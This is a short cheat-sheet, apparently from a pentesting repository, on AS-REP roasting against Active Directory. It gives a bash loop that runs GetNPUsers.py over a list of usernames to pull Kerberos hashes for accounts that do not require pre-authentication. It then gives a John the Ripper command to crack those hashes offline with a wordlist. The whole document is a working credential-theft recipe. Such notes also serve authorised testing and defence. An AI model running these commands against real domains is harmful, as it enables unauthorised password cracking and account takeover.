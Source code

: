 # ASREPRosting

## Given a list of valid domain usernames, query the KDC / Kerberos server to determine which has the "does not require pre-authentication" option set. You can retrieve the TGT of each account that does, and then crack then offline using JTR

* Attempt to get the TGT for each user account

```bash
for u in $(cat <username file>)
do
    GetNPUsers.py <DNS domain name>/$u
done
```

* Save recovered TGTs to tgt.txt

* Attempt to crack recovered TGTs

```bash
john tgt.txt --wordlist=<password list>
```
